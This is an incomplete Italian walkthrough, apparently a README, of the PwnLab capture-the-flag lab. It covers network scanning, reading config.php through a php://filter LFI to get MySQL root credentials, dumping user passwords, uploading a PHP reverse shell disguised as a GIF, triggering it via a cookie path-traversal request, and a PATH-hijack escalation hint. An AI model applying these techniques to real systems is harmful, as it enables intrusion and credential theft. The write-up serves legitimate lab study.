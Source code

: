 # PWN_LAB INIT


## NETDISCOVER 👨‍💻
Prima di tutto eseguiamo un netdiscover per scoprire l'indirizzo ip della macchina 
```
netdiscover 10.211.55.0/24
Currently scanning: Finished! | Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 2 hosts. Total size: 126
_____________________________________________________________________________ 
IP At MAC Address Count Len MAC Vendor / Hostname
----------------------------------------------------------------------------- 
10.211.55.1 00:1c:42:00:00:18 1 42 Parallels, Inc. 
10.211.55.17 00:1c:42:4d:69:40 2 84 Parallels, Inc.
```

Il primo indirizzo é il nostro (macchina kali), la macchina da attaccare é il secondo ip della lista.

## NMAP 🔍
```
nmap -sV -sC 10.211.55.17
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-16 15:02 CEST Nmap scan report for pwnlab-vulnhub.shared (10.211.55.17)
Host is up (0.00012s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.10 ((Debian)) |_http-server-header: Apache/2.4.10 (Debian)
|_http-title: PwnLab Intranet Image Hosting
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
...
3306/tcp open mysql MySQL 5.5.47-0+deb8u1
| mysql-info:
| Protocol: 10
| Version: 5.5.47-0+deb8u1
| Thread ID: 39
| Capabilities flags: 63487
| Some Capabilities: SupportsLoadDataLocal, Support41Auth, IgnoreSigpipes, SupportsTransactions, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, ConnectWithDatabase, InteractiveClient, FoundRows, Speaks41ProtocolNew, ODBCClient, SupportsCompression, LongPassword, LongColumnFlag, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
| Status: Autocommit
| Salt: =sK^vV+r|=Vxyvdt;gv<
|_ Auth Plugin Name: mysql_native_password
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 6.71 seconds
```
Visto che abbiamo trovato la porta 80 aperta, apriamo un browser e vediamo cosa troviamo.  
Troviamo una pagina di login e una di "upload" dove poter caricare dei dati, ma solo se loggati.

## LOGIN PAGE 🛠

* TODO: spiegare il perché di questa scelta
```
curl -s http://10.211.55.17/?page=php://filter/convert.base64-encode/resource=config
```
Analizziamo il comando: stiamo eseguendo una filter del codice php e lo stiamo codificando in modo tale che il broswer non interpreti il php, cosí da farci restituire il codice php come stringa codificata. In seguito decodifichiamo quello che é stato codificato in base64.
```
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<img src="images/pwnlab.png"><br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ] <hr/><br/> PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRS center>
</body>
</html>
```
Decodifichiamo
```
echo "PD9waHANCiRzZXJ2ZXIJICA9I...lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVR" | base64 -d
```
Otteniamo il codice php in chiaro.
```
<?php
$server = "localhost"; 
$username = "root"; 
$password = "H4u%QJ_H99"; 
$database = "Users";
?>
```
Proviamo ad entrare su mysql con queste credenziali
```
mysql -h 10.211.55.17 -u root -p
Enter password:
Welcome to the MariaDB monitor. Commands end with ; or \g. Your MySQL connection id is 114764
Server version: 5.5.47-0+deb8u1 (Debian)
...
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+
2 rows in set (0.002 sec)
...
MySQL [(none)]> use Users;
...
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
MySQL [Users]> Select * from users; 
+------+------------------+
| user | pass             | 
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== | 
| kane | aVN2NVltMkdSbw== | 
+------+------------------+
```
Anche le password sono codificate in base64.  
Proviamo a loggarci con  
* user: `kent`  
* password: _Sld6WHVCSkpOeQ==_ (decodificata ->) `JWzXuBJJNy`

Perfetto, ci siamo loggati.

Ora proviamo a caricare la nostra reverse shell. 
Impossibile: possiamo caricare solo immagini, quindi dobbiamo trovare il modo di caricare la nostra reverse shell come una immagine.


## REVERSE SHELL 🔁
Per caricare la reverse shell, prendiamo il file in php (se usate Kali */usr/share/webshells/php-reverse-shell.php*), modificando  IP e porta con quelli della nostra macchina. Ora aggiungiamo in testa una stringa che rappresenta l'header di un file GIF (`GIF89`) e cambiamo l'estensione in `.gif`.
Carichiamo la nostra reverse shell modificata e facciamo partire netcat sulla nostra macchina (`nc -lvnp [port]`)
Il file è correttamente caricato nella cartella **/uploads** del browser.
Per far esegure la shell caricata sul web server sfruttiamo **burpsuite** (oppure **curl**) eseguendo la seguente GET (**attenzione al nome del file che abbiamo caricato nel cookie!**)
* TODO: aggiungere il comando curl usato
* TODO: spiegare il perché di questa scelta
```
GET / HTTP/1.1
Host: 10.211.55.17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/ signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: lang=../upload/3eaa8ef68810b5720fdb48484d9b24ff.gif
If-None-Match: W/"17c7-5a5e2980343c0"
If-Modified-Since: Mon, 18 May 2020 02:05:15 GMT
Connection: close
```

## PRIVILEDGE ESCALATION 💵

<!-- si doveva modificare il comportamento di cat e poi chiamare un eseguibile che potevamo chiamare senza sudo: echo “/bin/sh/” > cat PATH=.:$PATH -->

## ROOT FLAG 🏴‍☠️
* TODO
